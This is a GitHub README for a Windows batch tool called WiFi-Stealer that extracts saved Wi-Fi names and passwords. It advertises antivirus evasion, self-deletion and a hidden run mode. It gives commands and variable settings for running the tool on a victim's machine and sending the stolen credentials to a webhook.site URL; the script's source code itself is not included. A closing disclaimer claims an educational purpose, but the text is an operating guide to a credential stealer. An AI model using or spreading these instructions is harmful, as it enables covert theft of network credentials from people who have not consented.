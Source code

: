 ## About
This is a simple batch program to grab Wi-Fi credentials from a local Windows machine.


## Features
- It does not need to be compiled.
- Runs on any windows machine (7/8.1/10/11).
- Undetectable by the default Windows Security AV (didn't test other AVs, but it should be also undetectable by them).
- Exfiltrated cedentials can be sent to a [webhook](https://webhook.site/) or saved locally to a txt file.
- The program has the ability to self-delete.
- To avoid problems caused by specials characters, the credentials are also stored in a hexadecimal value (in the form `name:password`).

**Note**: When using [Webhook.site](https://webhook.site/), please take the expiration of the URLs into consideration.


## Usage
There is a wide variety of ways to run the program. You can choose to use it in whatever way suits your needs. But usually, you either run this program on your machine or on a target machine. Here are some examples on how you can use the program:

### Running the program on a local machine (yours)
To run the script and save the credentials in the default `txt` file (this code line sets the default text file: `set "credsfile=creds.txt"`.), simply type:

```batch
> WiFi-Stealer.bat
```

Or you can specify a name for the `txt` file (or any file type), type this:

```batch
> WiFi-Stealer.bat --output "wifi-credentials.txt"
```

### Running the program on the target machine
Usually when running the program on a remote machine (program downloaded and executed by the victim) or on a machine that you gained physical access to, you need a way to retrieve the credentials. This is how you do it:

- **Specify the webhook as an argument**: Simply run the program and pass the URL of your webhook as an argument:

```batch
> WiFi-Stealer.bat --upload "https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- **Store the webhook inside the program**: If you can't run the program from the command prompt (or to avoid typing the url), ensure to save your webhook's URL in the variable `webhook` within the program. Another important step is to change the value of the `upload` variable from `0` to `1`. Once the program is executed, you will receive the credentials.

```batch
set upload=0

set "webhook=https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- Another cool feature is to make the program delete itself when it's done. To do this, you can simply change `selfdelete` varibale inside the program from `0` to `1`.

- To run the program in stealth (hidden) mode, remove the `::` form this line in the program:

```batch
::@powershell -window Hidden -command ""   &:: Uncomment if you want to run the program in hidden mode
```


## Screenshots

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_1.png)

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_2.png)


## ⚠️ DISCLAIMER
This project can only be used for educational purposes. Using this software against target systems without prior permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.